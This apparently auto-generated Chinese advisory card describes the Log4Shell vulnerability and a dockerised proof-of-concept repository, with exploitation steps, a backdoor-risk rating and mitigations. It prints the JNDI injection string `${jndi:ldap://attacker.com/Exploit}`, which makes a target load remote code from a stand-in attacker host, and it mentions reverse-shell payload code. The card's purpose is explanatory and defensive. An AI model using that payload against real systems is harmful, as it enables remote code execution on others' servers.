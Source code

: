 ## CVE-2021-44228 (Log4Shell)

**漏洞编号:** CVE-2021-44228

**漏洞类型:** 远程代码执行

**影响应用:** Apache Log4j2

**危害等级:** 高危，允许未经身份验证的远程代码执行

**影响版本:** 2.0-beta9 到 2.15.0 (不包括安全版本 2.12.2, 2.12.3, 和 2.3.1)

**利用条件:** 应用程序使用受影响的 Log4j2 版本，并且启用了消息查找替换功能。

**POC 可用性:** 是

**投毒风险:** 10%

## 详情

CVE-2021-44228，也被称为Log4Shell，是一个严重的远程代码执行漏洞，存在于Apache Log4j2中。该漏洞源于Log4j2在配置、日志消息和参数中使用的JNDI功能没有对攻击者控制的LDAP和其他JNDI相关端点提供足够的保护。

**有效性：**

提供的POC代码有效。它设置了一个dockerized环境，包括一个易受攻击的Java应用程序和一个模拟攻击者的LDAP服务器和HTTP服务器。该POC演示了如何通过JNDI注入执行任意代码。

**投毒风险：**

评估该代码的投毒风险约为10%。主要考虑以下几点：

*   `attacker/Payload.java`: 包含反弹shell的代码，存在被恶意修改的可能。
*   `attacker/index.js`和`attacker/ldap-server.js`:  可能被修改为重定向或记录漏洞利用尝试，虽然不直接执行恶意代码，但可以收集信息。
*   虽然大部分代码的功能是明确的，但在`Payload.java`中嵌入更隐蔽的后门或数据收集行为是可能的。因此存在一定的投毒风险。

**利用方式：**

1.  攻击者向目标应用程序发送包含恶意JNDI查找字符串的请求。例如：`${jndi:ldap://attacker.com/Exploit}`。
2.  如果目标应用程序使用Log4j2记录该请求，它会尝试解析JNDI查找字符串。
3.  Log4j2通过JNDI连接到攻击者控制的LDAP服务器 (attacker.com)。
4.  LDAP服务器返回一个包含指向攻击者控制的HTTP服务器的Java类的引用。
5.  Log4j2从HTTP服务器下载并执行该Java类，从而允许攻击者在目标系统上执行任意代码。

**缓解措施：**

*   升级到Log4j 2.17.1 或更高版本（此版本完全移除了有问题的 JNDI 功能）。
*   在旧版本中，设置`log4j2.formatMsgNoLookups=true` 或移除`JndiLookup` 类。

**项目地址:** [qw3rtyou/CVE-2021-44228_dockernize](https://github.com/qw3rtyou/CVE-2021-44228_dockernize)

**漏洞详情:** [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)